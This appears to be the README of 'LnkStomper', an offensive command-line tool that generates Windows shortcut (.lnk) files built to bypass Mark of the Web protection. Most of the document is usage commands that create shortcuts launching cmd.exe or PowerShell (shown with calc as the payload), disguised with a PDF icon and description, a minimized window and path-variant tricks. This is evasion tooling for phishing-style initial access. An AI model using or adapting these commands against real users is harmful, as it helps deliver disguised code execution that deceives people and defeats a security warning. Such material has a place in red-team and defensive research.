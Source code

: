 
## 🔥 `LnkStomper with MOTW BYPASS` 🔥

* Windows (.lnk) Shortcut file generator that bypass MOTW

## About
CLI tool that automates the process of generating Windows (.lnk) files

## Features 
- 🔥 `Mark Of The Web (MOTW) Bypass`


## Installation

```
git clone  
```

```
pip install -r requirements.txt
```

## Usage Examples
```
python LnkStomper.py -h

python LnkStomper.py --example

python LnkStomper.py --lnk calc.lnk

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c start calc.exe" -o calc.lnk

python lnkstomper.py --target C:\Windows\System32\cmd.exe --arguments "/c powershell.exe -c calc" --icon pdf --output calc.lnk          

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c powershell.exe -c start calc" -o calc.lnk -i pdf -d "Pdf Document" -w min

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c powershell.exe -c start calc" -o calc.lnk  -w min -i "%SystemRoot%\System32\shell32.dll,267"

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c start calc.exe" -o calc.lnk -v dot

python LnkStomper.py -t "C:\Windows\System32\cmd.exe" -a "/c start calc.exe" -o calc.lnk -v pathsegent
```


## License
This is an open-source software licensed under the [MIT license](https://opensource.org/licenses/MIT)